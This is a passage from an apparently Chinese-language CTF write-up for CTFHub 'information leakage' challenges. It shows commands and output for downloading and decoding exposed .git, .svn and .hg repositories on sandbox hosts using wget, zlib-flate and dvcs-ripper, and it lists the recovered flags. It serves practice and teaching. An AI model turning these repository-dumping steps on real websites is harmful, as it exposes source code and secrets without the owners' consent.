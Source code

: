 有一个叫做 `4401632513261.txt` 的文件，哈希为 `586c7b38919012b41525417b1479b7b2f539e063`

```bash
$ wget "http://challenge-7e8654a5da958626.sandbox.ctfhub.com:10800/.git/objects/58/6c7b38919012b41525417b1479b7b2f539e063"

$ zlib-flate -uncompress < 6c7b38919012b41525417b1479b7b2f539e063 > output

$ strings output
blob 33
ctfhub{4810073b50315a6ad0ca5286}
```

flag: `ctfhub{4810073b50315a6ad0ca5286}`

### 信息泄露 - SVN 泄露

这年头谁还用 svn 啊，直接工具一把梭了：

[kost/dvcs-ripper: Rip web accessible (distributed) version control systems: SVN/GIT/HG...](https://github.com/kost/dvcs-ripper)

就是安装太麻烦了，可以考虑 docker 跑一个 ubuntu，然后跟着 readme 的指引安装使用就好了

```bash
$ docker run --rm -it ubuntu bash

root@b0517fda18c5:/# apt update

root@b0517fda18c5:/# apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl git subversion

root@b0517fda18c5:/# git clone https://github.com/kost/dvcs-ripper

root@b0517fda18c5:/dvcs-ripper# perl rip-svn.pl -v -u "http://challenge-d3a8103b9278a2d1.sandbox.ctfhub.com:10800/.svn/"

root@b0517fda18c5:/dvcs-ripper# grep -r ctfhub .svn
.svn/pristine/5e/5e8116795a635d1aff2c9460af57aa68ee02a77e.svn-base:ctfhub{665c9072041c4e31608e32a6}
grep: .svn/wc.db: binary file matches
```

flag: `ctfhub{665c9072041c4e31608e32a6}`

### 信息泄露 - HG 泄露

```bash
root@b0517fda18c5:/dvcs-ripper# perl rip-hg.pl -v -s -u "http://challenge-997bd931f11fecef.sandbox.ctfhub.com:10800/.hg/"

root@b0517fda18c5:/dvcs-ripper# grep -r flag .hg/
grep: .hg/dirstate: binary file matches
grep: .hg/store/00manifest.i: binary file matches
grep: .hg/store/undo: binary file matches
.hg/store/fncache:data/flag_370518041.txt.i
grep: .hg/undo.dirstate: binary file matches
.hg/last-message.txt:add flag

$ curl "http://challenge-997bd931f11fecef.sandbox.ctfhub.com:10800/flag_370518041.txt"
ctfhub{9a264f20c5f7724a0b509f9e}
```
